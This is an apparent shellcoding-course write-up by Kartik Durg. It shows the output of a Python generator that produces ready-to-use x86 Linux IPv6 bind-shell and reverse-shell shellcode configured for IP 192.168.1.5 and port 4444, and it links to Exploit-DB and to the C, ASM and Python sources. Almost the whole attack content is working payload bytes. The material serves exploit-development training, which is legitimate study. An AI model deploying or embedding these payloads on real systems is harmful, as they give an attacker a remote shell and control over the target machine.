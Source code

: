 Output:

```
Enter the IP to connect-back: 192.168.1.5
Enter the PORT: 4444

HEX: 0xc0a80105
192.168.1.5 has been converted to little-endian \x05\x01\xa8\xc0
PORT 4444 has been converted to \x11\x5c


Choose your shellcode

Your Bind shell for IPv6 socket has been configured successfully: \x6a\x66\x58\x31\xdb\x6a\x06\x6a\x01\x6a\x0a\x43\x89\xe1\xcd\x80\x96\x31\xc0\x50\x50\x50\x50\x50\x66\x68\x11\x5c\x66\x6a\x0a\x89\xe1\x6a\x1c\x51\x56\x89\xe1\x43\x6a\x66\x58\xcd\x80\x53\x56\x89\xe1\x43\x43\x6a\x66\x58\xcd\x80\x99\x52\x52\x56\x89\xe1\x43\x6a\x66\x58\xcd\x80\x93\x6a\x02\x59\x6a\x3f\x58\xcd\x80\x49\x79\xf8\x31\xc9\x51\x6a\x0b\x58\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80


Your Reverse shell for IPv6 socket has been configured successfully: \x6a\x66\x58\x31\xdb\x6a\x06\x6a\x01\x6a\x0a\x43\x89\xe1\xcd\x80\x96\x31\xc0\x50\x68\xc0\xa8\x01\x05\x66\x6a\xff\x50\x50\x66\x50\x50\x66\x68\x11\x5c\x66\x6a\x0a\x89\xe1\x6a\x1c\x51\x56\x89\xe1\x43\x43\x6a\x66\x58\xcd\x80\x6a\x02\x59\x6a\x3f\x58\xcd\x80\x49\x79\xf8\x31\xc9\x51\x6a\x0b\x58\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80
```

___

Objectives achieved:

* Shellcode is null free.
* Only 86 bytes in size.
* IP and port can be easily configured.
* Register independent

Exploit-DB: [https://www.exploit-db.com/exploits/45139](https://www.exploit-db.com/exploits/45139)

Link to C-code:
[shell_reverse_tcp_ipv6.c](https://github.com/kartikdurg/SLAE/blob/master/Assignment_0x2/shell_reverse_tcp_ipv6.c)

Link to Shellcode.ASM:
[shell_reverse_tcp_ipv6.asm](https://github.com/kartikdurg/SLAE/blob/master/Assignment_0x2/shell_reverse_tcp_ipv6.asm)

Link to Shellcode.c:
[shell_reverse_tcp_ipv6_final.c](https://github.com/kartikdurg/SLAE/blob/master/Assignment_0x2/shell_reverse_tcp_ipv6_final.c)

Link for my python script BIND_REVERSE_IPv6_SHELL:
[BIND_REVERSE_IPv6_SHELL.py](https://github.com/kartikdurg/SLAE/blob/master/BIND_REVERSE_IPv6_SHELL.py)

Thank you for reading 🙂

– Kartik Durg
